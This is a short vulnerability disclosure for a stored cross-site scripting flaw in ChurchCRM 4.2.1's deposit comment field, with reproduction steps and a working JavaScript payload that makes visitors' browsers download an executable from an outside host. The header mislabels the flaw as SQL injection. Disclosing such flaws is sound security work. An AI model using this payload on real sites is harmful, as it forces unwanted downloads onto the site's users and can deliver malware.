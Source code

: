 #ChurchCRM 4.2.1- Persistent Cross Site Scripting(XSS)

##Vendor Homepage: https://churchcrm.io/
##Software Link: https://github.com/ChurchCRM/CRM

## Vulnerability Type :
SQL Injection


## Vulnerability Version :
Version: 4.2.1


## Recurring environment:
* Windows 10
* PHP 5.4.5
* Apache 2.4.23


## Vulnerability Description AND recurrence:

ChurchCRM application allows stored XSS , via 'Add new Deposit' module, that is rendered upon 'View All Deposits' page visit. There are multiple locations where this can be replicated To exploit this vulnerability:
 
   1. Login to the application, go to 'View all Deposits' module.
   2. Add the payload ( <script>var link = document.createElement('a');
   link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe';
   link.download = ''; document.body.appendChild(link); link.click();
</script> ) in the 'Deposit Comment' field and click "Add New Deposit".
   3. Payload is executed and a .exe file is downloaded.
